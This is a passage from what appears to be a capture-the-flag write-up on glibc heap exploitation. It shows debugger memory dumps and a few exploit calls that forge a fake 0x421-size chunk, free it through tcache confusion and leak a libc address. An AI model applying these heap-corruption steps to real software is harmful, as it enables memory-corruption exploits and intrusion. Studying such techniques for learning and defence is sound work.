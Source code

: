 ```
0x56257ccda770:	0x4747474747474747	0x4747474747474747
0x56257ccda780:	0x4747474747474747	0x4747474747474747
0x56257ccda790:	0x4747474747474747	0x4747474747474747
0x56257ccda7a0:	0x0000000000000000	0x0000000000000081
0x56257ccda7b0:	0x5252525252525252	0x5252525252525252
0x56257ccda7c0:	0x0000000000000420	0x0000000000000061 
0x56257ccda7d0:	0x0000000000000000	0x0000000000000000
0x56257ccda7e0:	0x0000000000000000	0x0000000000000000
0x56257ccda7f0:	0x0000000000000000	0x0000000000000000
0x56257ccda800:	0x0000000000000000	0x0000000000000000
0x56257ccda810:	0x0000000000000000	0x0000000000000000
0x56257ccda820:	0x0000000000000000	0x00000000000207e1
```

now that we have our fake size 0x421 chunk on the heap, we just have to free it.

if you pay close attention to the code posted above you will see, that we freed chunk A as well as chunk B. so before we free it again, we have to malloc

```
create(0,0x60,0x8*b'F')
```

that call returned our chunk A from tcache size 0x70 even tho the actual size is 0x421. This is because when we freed it it was still size 0x71 and so it was stored in tcache 0x70.

now we free it by mallocing a new chunk(the code of create())

```
create(0,0xe0,b'WWWWWWWW')
```

the size of this allocation(0xe0) is important. We will see why soon.

the state of the heap after the call for malloc(0xe0):
```
0x56257ccda3a0:	0x0000000000000000	0x00000000000000f1 <--- the new chunk size 0xe0 we just allocated
0x56257ccda3b0:	0x5757575757575757	0x00007f6a2f4adf00
0x56257ccda3c0:	0x000056257ccda3a0	0x000056257ccda3a0
0x56257ccda3d0:	0x0000000000000000	0x0000000000000000
0x56257ccda3e0:	0x0000000000000000	0x0000000000000000
0x56257ccda3f0:	0x0000000000000000	0x0000000000000000
0x56257ccda400:	0x0000000000000000	0x0000000000000000
0x56257ccda410:	0x0000000000000000	0x0000000000000211 <--- chunk B - still freed
0x56257ccda420:	0x0000000000000000	0x000056257ccda010
0x56257ccda430:	0x4242424242424242	0x4242424242424242
0x56257ccda440:	0x4242424242424242	0x4242424242424242
0x56257ccda450:	0x4242424242424242	0x4242424242424242
0x56257ccda460:	0x4242424242424242	0x4242424242424242
0x56257ccda470:	0x4242424242424242	0x4242424242424242
0x56257ccda480:	0x4242424242424242	0x4242424242424242
0x56257ccda490:	0x4242424242424242	0x0000000000000331 <--- chunk A that shrunk 
0x56257ccda4a0:	0x00007f6a2f4adbe0	0x00007f6a2f4adbe0 <--- libc address we are trying to leak
0x56257ccda4b0:	0x0000000000000000	0x0000000000000000
0x56257ccda4c0:	0x0000000000000000	0x0000000000000000
0x56257ccda4d0:	0x0000000000000000	0x0000000000000000
0x56257ccda4e0:	0x0000000000000000	0x0000000000000000
0x56257ccda4f0:	0x0000000000000000	0x0000000000000000
0x56257ccda500:	0x0000000000000000	0x0000000000000000
0x56257ccda510:	0x0000000000000000	0x0000000000000000
0x56257ccda520:	0x0000000000000000	0x0000000000000000
0x56257ccda530:	0x0000000000000000	0x0000000000000000
0x56257ccda540:	0x0000000000000000	0x0000000000000000
0x56257ccda550:	0x0000000000000000	0x0000000000000000
0x56257ccda560:	0x0000000000000000	0x0000000000000000
0x56257ccda570:	0x0000000000000000	0x0000000000000000
0x56257ccda580:	0x0000000000000000	0x0000000000000000
```